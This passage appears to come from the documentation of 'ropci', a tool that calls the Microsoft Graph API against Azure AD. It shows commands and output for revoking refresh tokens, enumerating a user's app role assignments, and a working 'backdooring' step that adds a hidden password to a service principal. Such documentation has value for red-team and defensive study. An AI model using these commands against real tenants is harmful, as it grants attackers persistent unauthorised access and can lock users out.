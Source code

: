 Which basically calls `/me/invalidateAllRefreshTokens`:

```
./ropci call -c /me/invalidateAllRefreshTokens --verb POST
```

If you try to refresh now with `./ropci auth refresh` the following error will be shown:

```
AADSTS50173: The provided grant has expired due to it being revoked, a fresh auth token is needed. The user might have changed or reset their password. The grant was issued on '2022-09-05T18:48:10.7367392Z' and the TokensValidFrom date (before which tokens are not valid) for this user is '2022-09-05T18:48:54.0000000Z'
```

Refresh tokens have been invalidated for the logged on user. If the account has the right permissions one can also call `/users/username@expample.org/invalidateAllRefreshTokens` to invalidate refresh tokens of another account.

## Application Role Assignments of a user

[Graph API Documentatin](https://docs.microsoft.com/en-us/graph/api/user-list-approleassignments?view=graph-rest-beta&tabs=http)

```
./ropci call -c /users/user@example.org/appRoleAssignments -f id -f principalDisplayName -f resourceDisplayName -f resourceId
+---------------------------------------------+----------------------+-------------------------+--------------------------------------+
|                     id                      | principalDisplayName |   resourceDisplayName   |              resourceId              |
+---------------------------------------------+----------------------+-------------------------+--------------------------------------+
| 5c6Mg23JVUWFS5E9XaB_vQObgianBrBMugogPRfMvYU | Vera Mitchell        | Apple Internet Accounts | 36559af8-a122-4101-b6c7-adccfa24506d |
| 5c6Mg23JVUWFS5E9XaB_vUG-XjOYoexCm4D9r2fYwxI | Vera Mitchell        | Graph Explorer          | f3ff1808-52d0-4516-b090-28a06cd24783 |
| 5c6Mg23JVUWFS5E9XaB_vaBGH-RIpJRMuE0qYZ7s5ZE | Vera Mitchell        | AppForHealthServices    | 48359af7-af3a-42d4-abe2-8425a14689c9 |
+---------------------------------------------+----------------------+-------------------------+--------------------------------------+
```

## Backdooring a Service Principal (adding additional password)

```
$ ./ropci call -c /servicePrincipals/48359af7-af3a-42d4-abe2-8425a14689c9/addPassword \ 
--verb POST  -b '{"passwordCredential": { "displayName": "ropci says this is fine"}} | jq

{
  "@odata.context": "https://graph.microsoft.com/beta/$metadata#servicePrincipals('48359af7-af3a-42d4-abe2-8425a14689c9')/addPassword",
  "@odata.type": "#microsoft.graph.servicePrincipal",
  "customKeyIdentifier": null,
  "endDateTime": "2024-09-05T19:48:11.1638864Z",
  "keyId": "c47e91ff-986c-4f8f-9cc0-d41bdd038d49",
  "startDateTime": "2022-09-05T19:48:11.1638864Z",
  "secretText": "Yhj8Q~H1np.....4iEGuf0djD",
  "hint": "Yhj",
  "displayName": "ropci says this is fine"
}
```
